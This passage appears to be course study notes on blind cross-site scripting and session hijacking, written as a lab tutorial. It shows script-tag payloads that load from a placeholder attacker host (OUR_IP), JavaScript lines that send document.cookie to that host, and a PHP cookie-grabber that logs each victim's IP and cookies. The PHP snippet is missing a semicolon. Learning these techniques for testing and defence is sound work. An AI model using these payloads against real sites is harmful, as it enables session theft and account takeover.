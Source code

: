 
Now we can start **testing** these payloads **one by one** by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:
```html
<script src=http://OUR_IP/fullname></script> this goes inside the full-name field
<script src=http://OUR_IP/username></script> this goes inside the username field
```
>[!Tip]
>We will notice that emails must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed out and not usually shown in cleartext.

Once we submit the form, we **wait** a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.
#### Session Hijacking
Once we find a **working** XSS payload and have identified the vulnerable input field, we can proceed to **XSS** exploitation and perform a **Session Hijacking attack**.

A **session hijacking** attack is very **similar** to the **phishing** attack we performed in the previous section. It requires a **JavaScript** payload to send us the required data and a **PHP** script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by PayloadsAllTheThings:
```js
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
Using **any** of the **two** payloads should work in sending us a **cookie**, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first **navigates** to our cookie grabber **PHP** page, which may look suspicious.

We can write any of these JavaScript payloads to script.js, which will be hosted on our VM as well:
```js
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use:
```html
<script src=http://OUR_IP/script.js></script>
```

With our **PHP** server running, we can now use the code as part of our **XSS** payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. **However**, if there were many cookies, we may **not** know which cookie value belongs to which cookie header. So, we can write a **PHP** script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the **XSS** exploit, we'll get all of their cookies ordered in a file.

We can save the following ``PHP`` script as ``index.php``, and re-run the ``PHP`` server again:
```php
<?php
if (isset($_GET['c'])) 
{
	$list = explode(";", $_GET['c']);
	foreach ($list as $key => $value)
	{
		$cookie = urldecode($value)
		$file = fopen("cookies.txt", "a+");
		fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
	}
}
?>
```
